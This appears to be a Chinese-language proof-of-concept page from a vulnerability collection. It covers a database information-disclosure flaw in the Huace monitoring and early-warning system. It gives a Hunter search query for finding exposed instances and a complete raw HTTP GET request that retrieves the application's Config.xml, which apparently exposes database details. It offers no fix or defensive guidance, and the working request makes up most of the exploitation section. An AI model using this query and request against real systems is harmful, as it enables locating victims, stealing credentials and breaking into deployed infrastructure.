 # 华测监测预警系统数据库信息泄露漏洞

# 一、漏洞简介
华测监测预警系统存在数据库信息泄漏漏洞。

# 二、影响版本
+ 华测监测预警系统

# 三、资产测绘
+ hunter`app.name="华测监测预警系统"`
+ 登录页面

![1693923282566-a270faa1-3ae7-4bcd-9795-dba9dbe4ae6d.png](./img/rSk_-194Dns3L8Y8/1693923282566-a270faa1-3ae7-4bcd-9795-dba9dbe4ae6d-646673.png)

# 四、漏洞复现
```plain
GET /web/Report/Rpt/Config/Config.xml HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=xp2shqaformcuin4cdxhm3ws
Upgrade-Insecure-Requests: 1
```

![1693923526902-2843a031-70e7-4efe-8273-980564d9c277.png](./img/rSk_-194Dns3L8Y8/1693923526902-2843a031-70e7-4efe-8273-980564d9c277-781161.png)



> 更新: 2024-02-29 23:55:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/axm90eqn4qtnt32s>